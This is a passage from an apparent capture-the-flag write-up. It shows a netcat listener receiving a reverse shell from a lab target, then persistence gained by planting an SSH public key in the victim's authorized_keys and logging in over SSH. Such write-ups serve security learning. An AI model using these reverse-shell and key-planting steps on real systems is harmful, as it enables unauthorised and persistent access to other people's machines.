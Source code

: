 ```bash
nc -lvnp 9001
connect to [10.10.14.189] from (UNKNOWN) [10.129.156.33] 34286
id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)
```

Upgraded to a TTY shell and retrieved the user flag

<img width="938" height="276" alt="Screenshot 2025-08-12 204006" src="https://github.com/user-attachments/assets/fca6bb4e-51bb-447c-9301-d354d871d05f" />

To make access persistent, generated SSH keys locally and added the public key to /home/dasith/.ssh/authorized_keys

```bash
└─$ ssh-keygen -t rsa -b 4096
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase for "/home/kali/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:qusonXJ4NQSynlaDjmWPGa5d6TV5x7bdM7G2jnggars kali@kali
The key's randomart image is:
+---[RSA 4096]----+
|                 |
|. .              |
| o..             |
|..+o.            |
|++o*.. .S.       |
|.=+ * +.o =   .  |
|.= = o.+ + + . o |
|= *...o   ..o.*  |
| =..+oEo  ...oo+ |
+----[SHA256]-----+

```

```bash
mkdir ~/.ssh
chmod 700 ~/.ssh
echo "ssh-rsa AAAA..." >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
and logged in with SSH successfully.

```bash
└─$ ssh -i id_rsa dasith@10.129.156.33
....
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Wed Sep  8 20:10:26 2021 from 10.10.1.168
dasith@secret:~$ 
```
